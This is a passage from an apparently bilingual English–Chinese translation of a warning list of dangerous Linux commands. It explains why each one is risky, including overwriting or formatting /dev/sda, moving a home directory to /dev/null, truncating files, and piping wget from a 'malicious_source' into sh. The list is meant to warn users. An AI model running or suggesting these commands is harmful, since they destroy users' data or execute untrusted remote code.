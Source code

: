 ### 3. command > /dev/sda ###

"### 3. 命令　> /dev/sda ###"

The above command writes the output of ‘**command**‘ on the block **/dev/sda**. The above command writes raw data and all the files on the block will be replaced with raw data, thus resulting in total loss of data on the block.

"上列命令会将‘**命令**‘的输出写到块设备**/dev/sda**中。该操作会将在块设备中的所有文件替换为命令写入的原始数据，从而导致整个块设备的数据丢失。"

### 4. mv folder /dev/null ###

"### 4. mv 文件夹 /dev/null ###"

The above command will move ‘**folder**‘ to **/dev/null**. In Linux **/dev/null** or **null** device is a special file that discards all the data written to it and reports that write operation succeed.

"上列命令会移动‘**文件夹**‘到**/dev/null**。在Linux中 **/dev/null** 或 **null** 设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。"

"    # mv /home/user/* /dev/null"

The above command will move all the contents of a **User** directory to **/dev/null**, which literally means everything there was sent to **blackhole (null)**.

"上列命令会将**User**目录所有内容移动到**/dev/null**，这意味着所有东西都被‘卷入’**黑洞　(null)**之中。"

### 5. wget http://malicious_source -O- | sh ###

"### 5. wget http://malicious_source -O- | sh ###"

The above command will download a script from a malicious source and then execute it. Wget command will download the script and **sh** will execute the downloaded script.

"上列命令会从一个恶意源下载一个脚本并执行。Ｗget命令会下载这个脚本，而**sh**会执行下载下来的脚本。"

**Note**: You should be very much aware of the source from where you are downloading packages and scripts. Only use those scripts/applications which is downloaded from a trusted source.

"**注意**: 你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。"

### 6. mkfs.ext3 /dev/sda ###

"### 6. mkfs.ext3 /dev/sda ###"

The above command will format the block ‘**sda**’ and you would surely be knowing that after execution of the above command your Block (**Hard Disk Drive**) would be new, **BRAND NEW!** Without any data, leaving your system into unrecoverable stage.

"上列命令会格式化块设备‘**sda**’，你无疑知道在执行上列命令后你的块设备(**硬盘驱动器**)会被格式化，**崭新的!**没有任何数据，直接让你的系统达到不可恢复的阶段。"

### 7. > file ###

"### 7. > file###"

The above command is used to flush the content of file. If the above command is executed with a typo or ignorance like “> **xt.conf**” will write the configuration file or any other system or configuration file.
